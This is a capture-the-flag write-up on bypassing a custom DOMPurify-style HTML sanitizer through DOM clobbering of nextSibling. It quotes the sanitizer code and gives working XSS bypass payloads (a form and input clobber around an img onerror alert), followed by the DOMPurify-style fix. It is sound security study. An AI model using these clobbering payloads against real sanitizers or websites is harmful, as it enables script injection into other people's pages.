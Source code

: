 ## Chall -- [Kevin Mizu](https://twitter.com/kevin_mizu)
#### `DOM Clobbering` and `XSS`

In this challenge, the author developed a webpage to sanitize XSS payloads. For this goal, the webpage sanitizes attacker inputs by utilizing code snippets from the DOM Purify project in conjunction with the tags specified within the Chromium code.

In my case, what I attempted was to search for any discrepancies between the code utilized and the most recent commits in both projects. Unfortunately, I was unable to find a solution for the challenge at that time. So, I'm writing this writeup after checking the [author solution](https://twitter.com/kevin_mizu/status/1701922141791211776) and learning how the exploit works.

#### Code Analysis

As the author explains in his twitter in the following code snippets is the key for the chall.

```javascript
    // Code of `sanitizer.js`
    sanitize = (input) => {
        // Step 1: Convert the Attacker string to a DOM Tree using DOM Parser API.
        let currentNode;
        var dom_tree = new DOMParser().parseFromString(input, "text/html");

        // Step 2: Create an iterator for the nodes.
        var nodeIterator = document.createNodeIterator(dom_tree);

        while ((currentNode = nodeIterator.nextNode())) {

            // Step 3: Sanitize the node
            // avoid DOMClobbering
            if (this._isClobbered(currentNode) || typeof currentNode.nodeType !== "number") {
                this.removeNode(currentNode);
                continue;
            }

            switch(currentNode.nodeType) {
                case currentNode.ELEMENT_NODE:
                    var tag_name   = currentNode.nodeName.toLowerCase();
                    var attributes = currentNode.attributes;

                    // avoid mXSS
                    if (currentNode.namespaceURI !== "http://www.w3.org/1999/xhtml") {
                        this.removeNode(currentNode);
                        continue;

                    // sanitize tags
                    } else if (!this.ALLOWED_TAGS.includes(tag_name)){
                        this.removeNode(currentNode);
                        continue;
                    }

                    // sanitize attributes
                    for (let i=0; i < attributes.length; i++) {
                        if (!this.ALLOWED_ATTS.includes(attributes[i].name)){
                            this.removeNode(currentNode);
                            continue;
                        }
                    }
            }
        }

        // Step 4: return the `safe` string
        return dom_tree.body.innerHTML;
    }
```

If the node that we are checking (e.g. `<img>`) has any illegal behavior (tag, attribute..) it basically calls the function to remove that node. 

```javascript
    removeNode = (currentNode) => {
        const parentNode = currentNode.parentNode;
        const childNodes = currentNode.childNodes;

        if (childNodes && parentNode) {
            const childCount = childNodes.length;

            for (let i = childCount - 1; i >= 0; --i) {
                parentNode.insertBefore(
                    childNodes[i].cloneNode(),
                    currentNode.nextSibling    // Here is the DOM Clobbering
                );
            }
        }

        currentNode.parentElement.removeChild(currentNode);
    }
```

#### Chall Solution 

The solution for the challenge consist in clobbering the `nextSibling` attribute in the `removeNode` function. In other words, the idea is to clobber the `nextSibling` with a previous element in order to avoid the sanitization of our payload. We avoid the sanitization because instead of adding the node (a.k.a payload) before the following node (a.k.a `nextSibling`) that is going to be checked, we are moving it before a node that was checked. So, in the next iterator node, the childNodes would be gone. In the following code, the author presents the solution.

```html
<input form="f" name="nextSibling">
<form id="f"> 
    <input name="textContent">
    <img src="x" onerror="alert()">
</form>
```

In this code snippet, as you see, we are clobbering the `nextSibling` with the first input and the form. After that, we need to add the payload inside the form, so that, in the moment of removing the node (`form`), the function will the the child nodes (`input2` and `img`) to `nextSibling` (`input1`). Doing that, our payload `img` would avoid the sanitization. The second `input` is used to provoke the error in the `form`.

![fig1](./figs/1.png)
![fig1](./figs/2.png)

I present a similar solution, that could be more clear because we avoid the second `input` provoking the error in the `form` using the attribute `onload`.

```html
<input form="f" name="nextSibling">
<form id="f" onload> 
    <img src="x" onerror="alert()">
</form>
```

Recap: Thanks to the DOM Clobbering of `nextSibling`, we avoid that our payload, inside a `form`, gets sanitizated. 


#### Fix the vuln 

If we check the `DOMPurify` project we can see that they have some checks to see if `nextSibling` is clobbered ([github](https://github.com/cure53/DOMPurify/blob/main/src/purify.js#L117)).

```javascript
const getNextSibling = lookupGetter(ElementPrototype, 'nextSibling');
// ...

    parentNode.insertBefore(
      cloneNode(childNodes[i], true),
      getNextSibling(currentNode)
    );
```

I encourage the reader to explore how the clobbering protection works. I made the fix for avoiding the clobbering in the `src_fixed` folder.

#### Useful refs:
- [DOMParser API](https://developer.mozilla.org/en-US/docs/Web/API/DOMParser). 
- [DOMPurify repo](https://github.com/cure53/DOMPurify/blob/main/src/purify.js) by Cure53.
